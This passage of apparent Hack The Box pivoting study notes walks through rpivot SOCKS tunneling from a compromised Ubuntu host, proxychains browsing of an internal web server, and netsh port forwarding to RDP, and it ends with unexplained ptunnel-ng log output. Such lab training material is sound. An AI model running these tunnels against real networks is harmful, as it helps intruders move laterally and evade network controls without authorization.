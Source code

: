 ![Untitled](.gitbook/assets/Untitled%203.png)

- `sudo git clone https://github.com/klsecservices/rpivot.git`
- `python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0` start our rpivot SOCKS proxy server to connect to our client on the compromised Ubuntu server using `server.py`

Before running `client.py` we will need to transfer rpivot to the target. We can do this using this SCP command:

```bash
dollarboysushil@htb[/htb]**$** scp -r rpivot ubuntu@<IpaddressOfTarget>:/home/ubuntu/
```

- `python2.7 [client.py](http://client.py) --server-ip 10.10.14.18 --server-port 9999` running client.py form pivot machine

We will configure proxychains to pivot over our local server on 127.0.0.1:9050 on our attack host, which was initially started by the Python server.

- `proxychains firefox-esr 172.16.5.135:80` browsing to the target webserver using proxychains

# **Port Forwarding with Windows Netsh**

[Netsh](https://docs.microsoft.com/en-us/windows-server/networking/technologies/netsh/netsh-contexts) is a Windows command-line tool that can help with the network configuration of a particular Windows system. 

![Untitled](Untitled%204.png)

We can use `netsh.exe` to forward all data received on a specific port (say 8080) to a remote host on a remote port. This can be performed using the below command.

```bash
C:\Windows\system32> netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
```

here, listenport and listenaddress are similar to lhost and lport (pivot host) and connectport and connectaddress are similar to Rhost and rport (for victim windows server)


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.